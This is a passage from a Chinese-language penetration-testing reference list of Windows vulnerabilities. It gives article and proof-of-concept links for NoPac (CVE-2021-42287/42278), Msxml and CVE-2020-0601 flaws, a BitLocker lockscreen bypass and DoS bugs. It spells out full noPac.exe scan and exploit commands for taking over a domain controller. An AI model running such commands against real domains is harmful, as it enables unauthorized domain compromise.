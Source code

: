**NoPac && CVE-2021-42287 && CVE-2021-42278**
- 相关文章
    - [CVE-2021-42287/CVE-2021-42278 Weaponisation](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html)
    - [CVE-2021-42287/CVE-2021-42278 域内翻身做主人](https://mp.weixin.qq.com/s/Z3mI5eEc8-iudqdU7EZ3EQ)
    - [CVE-2021-42287复现](https://mp.weixin.qq.com/s/OI9XiUGe4-1exmFOkV9ZVQ)
    - [「域渗透」NoPac在MAQ=0时的利用](https://mp.weixin.qq.com/s/CWWu0Fs6p2GOyUstdymLrg)

- POC | Payload | exp
    - [cube0x0/noPac](https://github.com/cube0x0/noPac)
        ```
        # 扫描探测
        .\noPac.exe scan -domain test.local -user test -pass 'Abcd1234!@'

        # 直接利用
        .\noPac.exe -domain test.local -user test -pass 'Abcd1234!@' /dc dc.test.local /mAccount test123 /mPassword passW0rd /service cifs /ptt
        ```
    - [WazeHell/sam-the-admin](https://github.com/WazeHell/sam-the-admin)

---

### 其他

**CVE-2018-8420 Msxml 解析器的远程代码执行漏洞**
- POC | Payload | exp
    - [Lz1y/CVE-2018-8420](https://github.com/Lz1y/CVE-2018-8420)

**CVE-2020-0601**
- POC | Payload | exp
    - [ollypwn/CVE-2020-0601](https://github.com/ollypwn/CVE-2020-0601)
    - [kudelskisecurity/chainoffools](https://github.com/kudelskisecurity/chainoffools)

#### 物理接触

**CVE-2020-1398**
- 相关文章
    - [BitLocker Lockscreen bypass](https://secret.club/2021/01/15/bitlocker-bypass.html) - 通过粘贴键+讲述人 bypass windows bitlocker锁屏

#### DOS

**condrv.sys内存损坏漏洞**
- 相关文章
    - [【更新】深信服EDR快速响应支持防护Windows condrv.sys内存损坏漏洞](https://mp.weixin.qq.com/s/QhGYn6wPquSY6obvjgt8VQ)
    - [Windows 10 bug crashes your PC when you access this location](https://www.bleepingcomputer.com/news/security/windows-10-bug-crashes-your-pc-when-you-access-this-location/)

**CVE-2020-16899**
- 相关文章
    - [CVE-2020-16899: Windows TCP/IP拒绝服务漏洞](https://mp.weixin.qq.com/s/gcQZCfO7EI4hKTdXboPTnA)

